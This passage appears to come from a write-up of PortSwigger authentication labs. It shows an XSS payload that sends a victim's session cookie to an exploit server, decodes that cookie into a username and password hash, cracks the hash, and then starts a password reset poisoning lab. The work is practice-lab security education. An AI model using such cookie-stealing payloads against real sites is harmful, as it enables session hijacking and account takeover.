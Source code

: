 I used this payload:

```
<img src=x onerror=this.src="https://exploit-0ab3003203a3ece482b4f5e601f50052.exploit-server.net/exploit/?c="+document.cookie>
```

And received the callback immediately:

![](../../.gitbook/assets/portswigger-auth-writeup-image-20.png)

The `stay-logged-in` cookie can be decoded using `base64`:

```
$ echo Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz | base64 -d
carlos:26323c16d5f4dabff3bb136f2460a943
```

And the hash can be cracked on CrackStation:

![](../../.gitbook/assets/portswigger-auth-writeup-image-21.png)

Log in as `carlos` and delete the account to solve the lab.

## Lab 11: Password Reset Poisoning via Middleware

I'm given an exploit server with an email account. The `carlos` user also clicks on any links received. To solve the lab, log in as `carlos`.

I sent a password reset email to myself:

![](../../.gitbook/assets/portswigger-auth-writeup-image-22.png)
